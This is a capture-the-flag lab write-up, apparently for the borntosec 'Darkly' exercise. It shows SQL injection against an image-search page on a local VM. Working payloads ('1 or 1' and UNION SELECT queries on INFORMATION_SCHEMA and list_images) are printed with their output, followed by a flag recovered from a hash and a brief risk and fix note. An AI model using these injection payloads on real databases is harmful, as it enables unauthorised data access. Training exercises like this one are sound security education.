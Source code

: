 # Image Search

http://192.168.56.101/index.php?page=searchimg

Something similar to member-search I think

`1 or 1` gives all images in database

```
ID: 1 or 1
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 or 1
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 or 1
Title: Google
Url : https://www.google.fr/google.png

ID: 1 or 1
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 or 1
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 or 1
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
```

Same as user search:

```
ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: id
Url : list_images

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: url
Url : list_images

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: title
Url : list_images

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: comment
Url : list_images
```

Querying for more information gives us this

```
ID: 1 union select title, comment from list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

Run that through a google search and you get `albatroz`

## Risk

User could access sensitive information

## Fix

Validate data received from request

